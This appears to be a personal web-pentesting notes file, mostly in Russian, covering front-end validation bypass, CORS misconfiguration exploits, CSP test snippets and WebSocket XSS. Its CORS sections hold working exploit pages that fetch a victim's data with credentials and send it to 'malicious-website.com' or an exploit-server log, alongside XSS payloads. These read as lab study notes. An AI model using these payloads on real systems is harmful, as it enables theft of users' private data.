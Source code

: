 # Analyzing Source Code for Vulnerabilities
Load source code
Use IDE debugger to analyze
Find authorization, authentication, redirects, secrets, user input logic, pages without authentication

# DFD
Через консоль или скачать приложение и добавить в код `debugger;`
Понять точки ввода и точки вывода (отображения)
Определить где проводится санитизация и валидация
    Добавить <h1></h2> теги проверить отображается
    Добавить `< : ? / "` символ проверить какие симловы преобразованы
Проверить валидация и санитизация происходит до отправки данных на сервер (те на фронте)
Если на фронте - понять как это можно обойти:
- использовать прокси для перехвата и модификации данных
- переопределить поведение функции в консоли браузера `function vulnerableFunction(){console.log(h3cker);}`
https://crunchify.com/how-to-refresh-div-content-without-reloading-page-using-jquery-and-ajax/
- переопределить поведение переменной в консоли браузера
- переопределить DOM в консоли браузера
```
document.body.innerHTML // вывести страницу в консоль
// внедрить свой скрипт на страницу
var s = document.createElement('script');
s.src = 'http://path/to/script.js'; // браузер попытается загрузить через http
document.body.appendChild(s);
```

- использовать расширения браузера (https://www.tampermonkey.net/) или написать свое
# DAST
Fuzzing

# CORS
Политика обходящая SOP. Цель дать доступ другим сайтам свои ресурсы к сайту хакера

#### Wildcard
Открыть сайт в консоли разработчика отправить легитимный запрос и скопировать его "Copy as fetch"
Открыть другой сайт в соседней вкладкке и отправить запрос fetch("https://target.site", {"headers: {}"})

#### CORS vulnerability with basic origin reflection
Получить любой ответ от сервера
Проверить наличие заголовков Access-Control-Allow-...
Вставить через прокси заголовок `Origin: https://hello.world` ИЛИ `null`
Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`
<img src="../Media/cors-vulnerability-with-basic-origin-reflection.png" alt="drawing" width="150"/>
```html
<html><body><script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='//malicious-website.com/log?key='+this.responseText;
        };
</script></body></html>
```
Уязвим если в дополнение к изменению поля `Origin` появляется `Access-Control-Allow-Credentials: true`
Тогда можно сделать атаку с передачей cookie 
```html
<html>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','X.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='X.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
        </script>"></iframe>
</html>
```

#### Exploiting XSS via CORS trust relationship
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
>>> GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-XSS-website.com
Cookie: sessionid=...

<<< HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-XSS-website.com
Access-Control-Allow-Credentials: true
```
Exploit:
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>

# CSP
Test payload for test SCP. Or use https://csp-evaluator.withgoogle.com/
Risks: XSS, Clickjacking, Injection

```js
# Basic
eval("alert('Hello World')");

# Test script-src:
var script = document.createElement('script');
script.src = 'https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js';
document.head.appendChild(script);

# Test img-src:
var img = document.createElement('img');
img.src = 'http://l.yimg.com/a/i/us/nws/weather/gr/30d.png';
document.body.appendChild(img);

# Test style-src:
var style = document.createElement('style');
style.innerHTML = '@import url(http://yui.yahooapis.com/pure/0.5.0/pure-min.css);';
document.head.appendChild(style);

# addEventListener
window.addEventListener('securitypolicyviolation', function(event) {
  console.log('CSP Violation:', event.message);
}, true);
```

# WebSocket
1. Intercepting and modifying WebSocket messages
{"message":"Test"} => <td>Test</td>
{"message":"<img src=1 onerror='alert(1)'>"} => alert(1) XSS

2. Manipulating the WebSocket handshake to exploit vulnerabilities
add via proxy headers: `X-Forwarded-For` `Origin` `Referer` in order to avoid \ break logic.

3. 